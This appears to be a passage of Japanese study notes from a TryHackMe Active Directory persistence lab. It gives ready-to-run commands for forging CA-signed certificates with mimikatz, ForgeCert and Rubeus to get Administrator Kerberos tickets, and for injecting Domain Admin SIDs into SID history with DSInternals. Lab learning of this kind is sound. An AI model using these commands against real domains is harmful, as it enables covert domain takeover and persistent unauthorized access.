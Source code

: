 ```shell
# デフォルトで、mimikatz というパスワードで暗号化される。
mimikatz # crypto::certificates /systemstore:local_machine /export
```

証明書生成

```shell
ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
```

https://github.com/GhostPack/ForgeCert

- CaCertPath - エクスポートされた CA 証明書へのパス。
- CaCertPassword - 証明書を暗号化するために使用されるパスワード。
- Subject - 証明書の件名または共通名。
- SubjectAltName - この証明書を使用して偽装するアカウントのユーザープリンシパル名 (UPN)。正当なユーザーである必要がある。
- NewCertPath - ForgeCert が生成された証明書を保存する場所へのパス。
- NewCertPassword - 証明書には認証のためにエクスポートされた秘密鍵が必要なので、それを暗号化するために使用する新しいパスワードを設定する必要がある。

TGT 取得

```shell
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:vulncert.pfx /password:tryhackme /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.x.101
```

TGT ロード

```shell
mimikatz # kerberos::ptt administrator.kirbi
```

## SID 履歴

- ドメイン管理者権限またはそれと同等の権限が必要。
- アカウントがログオンイベントを作成すると、アカウントに関連付けられた SID がユーザーのトークンに追加され、アカウントに関連付けられた権限が決定される。これにはグループ SID も含まれる。
- Enterprise Admin SID を挿入すると、アカウントの権限がフォレスト内のすべてのドメインで実質的にドメイン管理者に昇格される。
- SID はユーザーのトークンに追加されるため、アカウントが実際のグループのメンバーでなくても権限は尊重される。

```ps
# 現在のSID履歴を確認
Get-ADUser <your ad username> -properties sidhistory,memberof

# Domain AdminsグループのSIDを取得
Get-ADGroup "Domain Admins"

# DSInternals を使ってSID 履歴にパッチを適用
# ntds.ditは、全ての情報が保存されているADデータベース。
Stop-Service -Name ntds -force
Add-ADDBSidHistory -SamAccountName 'username of our low-priveleged AD account' -SidHistory 'SID to add to SID History' -DatabasePath C:\Windows\NTDS\ntds.dit
Start-Service -Name ntds
```

https://github.com/MichaelGrafnetter/DSInternals
